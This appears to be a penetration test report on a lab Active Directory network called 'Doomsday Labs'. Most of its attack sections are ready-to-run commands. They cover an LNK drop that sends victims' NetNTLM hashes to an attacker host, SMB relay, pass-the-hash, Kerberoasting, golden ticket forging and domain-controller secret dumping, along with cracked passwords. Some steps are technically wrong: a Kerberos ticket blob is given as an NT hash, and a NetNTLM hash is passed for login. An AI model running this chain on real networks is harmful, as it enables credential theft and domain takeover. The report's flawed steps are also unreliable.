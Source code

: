 # Comprehensive Penetration Testing Report for Doomsday Labs

## Executive Summary
This document presents a detailed account of the penetration testing executed against Doomsday Labs' network, covering IP addresses from 10.100.1.2 to 10.100.1.7. The primary goal was to identify vulnerabilities within the network and find potential security risks using various techniques including OSINT, SMB Relay attacks, Credential Dumping, and Active Directory Exploitation.

## Test Environment
- **Scope**: Examined IP addresses range from 10.100.1.2 to 10.100.1.7.
- **Operating Systems**: Targets on Windows Server 2019; Attacks from Kali Linux.
- **Tools Used**: Nmap, Crackmapexec, Responder, Hashcat, Impacket, Bloodhound, Neo4j, pypykatz, Evil-WinRM.

## Key Exploits and Findings

### LNK File Drop
- **Objective**: To obtain FileMaker's NetNTLM hash via a crafted .LNK file.
- **Methodology**:
    - Created a .LNK file targeting the attacker’s Kali machine.
    - Deployed using the command:
        ```
        crackmapexec smb 10.100.1.4 -u info -p WhenTomorrowisNot@nOption2024 -M slinky -o server=10.100.1.76 name=JK_Flag
        ```
    - Captured the NetNTLM hash using Responder:
        ```
        sudo responder -I tun0 -A
        ```
    - The hash was secured and logged from `/usr/share/responder/logs`.

### SMB Relay and Credential Harvesting
- **Target File**: `targets.txt` — includes scoped IP addresses for testing.
- **Approach**: 
    - Conducted SMB Relay attacks to capture and relay NTLM hashes using:
        ```
        crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt
        impacket-ntlmrelayx -smb2support -tf targets.txt
        ```
    - Successfully gathered initial credentials for deeper access into the network.

### Credential Dumping
- **Tools Utilized**: Evil-WinRM, pypykatz.
- **Execution**:
    ```
    evil-winrm -i 10.100.1.4 -u filemaker -H 322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0
    ```
- **Outcome**:
    - Accessed various hosts using compromised credentials.
    - Conducted manual credential dumping with pypykatz.
    - **Decrypted Password**: `Football24`

### Active Directory and Kerberos Attacks
- **Active Scanning**:
    ```
    impacket-GetADUsers doomsdaylabs.net/filemaker:Football24 -dc-ip 10.100.1.2 -all
    ```
- **Kerberoasting**:
    ```
    impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
    ```
    - Kerberos tickets were targeted for cracking via Hashcat.
- **Pass the Ticket & Creating Golden Tickets**:
    ```
    impacket-ticketer -nthash doIF0jCCBc6gAwIBBaEDAgEWooIEyz...[snipped]...NXU/rX266m632YeSk3csEUpoKMTPZ -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
    KRB5CCNAME=./Administrator.ccache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
    ```
    - **Plain Password**: `Sunshine24`

### Bloodhound Analysis for Lateral Movement
- **Objective**: To trace and exploit potential lateral movement pathways using Bloodhound.
- **Procedure**:
    - Continuously employed Bloodhound to map administrative privilege escalations throughout the network.

## Lateral Movement Pathways
- **Initial Setup**:
    - An LNK file was strategically placed on an SMB Share to intercept FileMaker's NetNTLM hash, facilitating early network entry.
- **Progressive Actions**:
    - Used the obtained credentials for lateral movements, Kerberoasting, and ultimately for accessing the domain controller.

## Recommendations
- **SMB Relay Attack Prevention**: Implement SMB signing and enforce stringent authentication measures to curb relay attacks.
- **Credential Security Enhancement**: Improve monitoring of credential usage and enforce multi-factor authentication where feasible.
- **Active Directory Maintenance**: Regularly update and audit Active Directory configurations. Utilize tools like Bloodhound to preemptively identify and mitigate unusual access patterns or potential escalations.

## Conclusion
The penetration test exposed multiple critical vulnerabilities that could potentially be exploited to gain unauthorized access and control over network resources. Prompt remediation of these issues is advised to strengthen the network's security framework.

## Appendix
- **Tools and Commands**:
    - `crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt`
    - `impacket-ntlmrelayx -smb2support -tf targets.txt`
    - `evil-winrm -i 10.100.1.4 -u filemaker -H [NetNTLM hash]`
    - `pypykatz lsa minidump lsass.dmp`

## References
- [Hashcat Rule-based Attack Guide](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [CrackMapExec Tool on Kali](https://www.kali.org/tools/crackmapexec/)
- [Using Hashcat for Rule-based Attacks](https://www.armourinfosec.com/performing-rule-based-attack-using-hashcat/)
